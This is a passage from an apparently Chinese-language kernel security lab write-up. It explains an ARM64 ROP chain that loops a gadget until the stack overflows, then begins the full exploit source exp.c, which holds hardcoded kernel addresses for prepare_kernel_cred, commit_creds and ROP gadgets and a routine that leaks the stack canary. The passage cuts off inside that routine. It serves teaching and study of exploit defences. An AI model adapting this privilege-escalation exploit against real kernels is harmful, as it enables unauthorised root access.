 ![image 18](image-20230530181128956.png)

当`first_level_gadget`执行完成后，会首先更新`x29`和`x30`，正常情况下会跳回`zjubof_write1`，并将`sp+220`进而恢复`sp`，而现在则会再次跳到`first_level_gadget`，同时`sp+220`也会更新到错误的地方，之后就是重复的再次跳到`first_level_gadget`，同时`sp+220`错误的更新，直到stack overflow

4. Linux 内核是如何利用 ARM PA 来防御 ROP 攻击的

见Task4中的分析



附exp.c完整代码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

const size_t RAWithoutKASLR = 0xffff800010de7d0c;
const size_t RAToFirstLevelGadget = 0xffff8000107abd7c;

const size_t RAOfPrepareKernelCred = 0xffff8000100a6214;
const size_t RAOfCommitCreds = 0xffff8000100a5f6c;
const size_t RAOfSecondLevelGadget = 0xffff8000107abdb0;
const size_t RAOfZJUBofWrite = 0xffff8000107abe54;

char canaryStr[8];
char oldFPStr[8]; // fp of zjubof_write2 
char oldRAStr[8]; // ra of zjubof_write3 -> zjubof_write2

size_t getOffset(int fd) {
    size_t len = 0; 

    char buf[49] = "0123456789ABCDEF\x30"; // cmd.command = "0123456789ABCDEF", cmd.length = 0x30

    len = write(fd, buf, 24); // // 16 + 8 B
    len = read(fd, buf, 48); // CMD_LENGTH = 49, len < 49

    
    memset(canaryStr, '\0', sizeof(canaryStr));
```